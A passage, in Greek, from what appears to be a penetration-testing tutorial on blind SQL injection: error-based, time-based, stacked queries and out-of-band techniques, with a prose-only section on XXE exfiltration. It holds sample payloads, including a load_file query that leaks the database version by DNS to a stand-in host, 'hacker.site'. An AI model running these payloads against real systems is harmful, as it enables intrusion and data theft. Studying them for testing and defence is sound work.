 Αυτή είναι η **ίδια περίπτωση όπως πριν**, αλλά αντί να διακρίνετε μεταξύ μιας αληθούς/ψευδούς απάντησης από το ερώτημα, μπορείτε να διακρίνετε αν υπάρχει **σφάλμα** στο ερώτημα SQL ή όχι (ίσως επειδή το διακομιστής HTTP καταρρέει). Επομένως, σε αυτήν την περίπτωση μπορείτε να προκαλέσετε ένα SQL σφάλμα κάθε φορά που μαντέψετε σωστά τον χαρακτήρα:
```sql
AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -
```
## Εκμεταλλευόμενος το Time Based SQLi

Σε αυτήν την περίπτωση **δεν υπάρχει** κανένας τρόπος να **διακρίνει** η **απόκριση** του ερωτήματος βάσει του περιεχομένου της σελίδας. Ωστόσο, μπορείτε να καθυστερήσετε τη φόρτωση της σελίδας αν ο μαντεψιάρης χαρακτήρας είναι σωστός. Έχουμε ήδη δει αυτήν την τεχνική να χρησιμοποιείται προηγουμένως για να [επιβεβαιώσουμε μια ευπάθεια SQLi](./#επιβεβαίωση-με-χρονομέτρηση).
```sql
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```
## Στοίβαξη Ερωτημάτων

Μπορείτε να χρησιμοποιήσετε την τεχνική της στοίβαξης ερωτημάτων για να **εκτελέσετε πολλαπλά ερωτήματα διαδοχικά**. Σημειώστε ότι ενώ τα επόμενα ερωτήματα εκτελούνται, τα **αποτελέσματα δεν επιστρέφονται στην εφαρμογή**. Επομένως, αυτή η τεχνική είναι κυρίως χρήσιμη σε σχέση με **τυφλές ευπάθειες**, όπου μπορείτε να χρησιμοποιήσετε ένα δεύτερο ερώτημα για να ενεργοποιήσετε έναν έλεγχο DNS, συνθήκη σφάλματος ή καθυστέρηση χρόνου.

Το **Oracle** δεν υποστηρίζει την τεχνική της στοίβαξης ερωτημάτων. Το **MySQL, Microsoft** και το **PostgreSQL** την υποστηρίζουν: `ΕΡΩΤΗΜΑ-1-ΕΔΩ; ΕΡΩΤΗΜΑ-2-ΕΔΩ`

## Εκμετάλλευση εκτός ζώνης

Εάν **καμία άλλη** μέθοδος εκμετάλλευσης **δεν λειτούργησε**, μπορείτε να προσπαθήσετε να κάνετε τη βάση δεδομένων να **εξαγάγει τις πληροφορίες** σε έναν **εξωτερικό διακομιστή** που ελέγχετε εσείς. Για παράδειγμα, μέσω ερωτημάτων DNS:
```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```
### Εξαγωγή δεδομένων εκτός ζώνης μέσω XXE

Η εξαγωγή δεδομένων εκτός ζώνης μέσω XXE (XML External Entity) είναι μια τεχνική που επιτρέπει στον επιτιθέμενο να ανακτήσει πληροφορίες από τον στόχο μέσω εξωτερικών οντοτήτων XML. Αυτή η ευπάθεια συνήθως εκμεταλλεύεται όταν η εφαρμογή δέχεται εισόδους XML χωρίς να ελέγχει τις εξωτερικές οντότητες.

Ο επιτιθέμενος μπορεί να εκμεταλλευτεί αυτήν την ευπάθεια για να ανακτήσει ευαίσθητες πληροφορίες από το σύστημα, όπως αρχεία στον διακομιστή ή ακόμη και προσωπικά δεδομένα των χρηστών. Η εξαγωγή των δεδομένων μπορεί να γίνει μέσω εξωτερικών οντοτήτων DTD (Document Type Definition) ή μέσω εξωτερικών οντοτήτων παραμέτρων.

Για να εκμεταλλευτείτε αυτήν την ευπάθεια, πρέπει να εισάγετε μια εξωτερική οντότητα XML που θα ανακτήσει τα επιθυμητά δεδομένα και θα τα αποστείλει σε έναν εξωτερικό ελεγκτή που ελέγχετε εσείς. Αυτό μπορεί να γίνει μέσω διάφορων τεχνικών, όπως τη χρήση του πρωτοκόλλου HTTP, FTP ή DNS για την αποστολή των δεδομένων.
